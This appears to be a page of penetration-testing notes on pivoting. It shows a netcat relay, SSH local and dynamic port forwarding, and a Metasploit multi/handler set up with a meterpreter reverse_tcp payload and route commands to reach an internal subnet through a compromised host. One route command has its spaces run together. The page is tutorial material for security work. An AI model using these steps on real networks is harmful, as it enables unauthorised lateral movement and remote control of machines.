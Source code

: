 # Pivoting

The technique of using one compromised machine to access another is called pivoting.

## Netcat Relay

> `$mknod backpipe p`
>
> `$nc –l –p 80 0<backpipe | nc 192.168.128.128 80 1>backpipe`

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/netcat_relay.png)

## SSH Local Port Forwarding

SSH local port forwarding is set up by the command below:

> `$ ssh –L port:destination_host:destination_port username@pivot_host`

`-L` indicates to use local port forwarding

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/ssh_local.png)

## SSH Dynamic Port Forwarding

The syntax is as below:

> `ssh –D address:port –f –N username@pivot_host`

`-D` indicates to use dynamic port forwarding, `address` is local machine \(127.0.0.1\)

An example is shown below:

> `# ssh -D 127.0.0.1:9150 -f -N user@192.168.112.132`
>
> `user@192.168.112.132's password:`

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/ssh_dynamic_port_fwd.png)

 _**SSH dynamic port forwarding can access multiple systems on different ports.**_

### Pivot with Metasploit and Meterpreter Sessions

**Step 1** Start the multi/handler exploit

> `msf > use exploit/multi/handler`
>
> `msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp`
>
> `payload => linux/x86/meterpreter/reverse_tcp`
>
> `msf exploit(handler) > set LHOST 192.168.112.132`
>
> `LHOST => 192.168.112.132`
>
> `msf exploit(handler) > set LPORT 2222`
>
> `LPORT => 2222`
>
> `msf exploit(handler) > run`

**Step 2** Run the executable on the compromised host and establish a Meterpreter session

**Step 3** Set up pivot by the metasploit route command

> `msf exploit(handler) > route add192.168.128.0255.255.255.0 1`
>
> `[*] Route added`
>
> `msf auxiliary(tcp) > route print`

**Step 4** Now metasploit modules can pivot through the compromised host and target  
systems on the internal network \(192.168.128.0/24\).

## Pivoting Technique Summary

### ![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/pivot_summary.png)

## Interaction Between Web Application Penetration Testing Tools and pivoting

## ![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/web_app_tool_pivot.png)

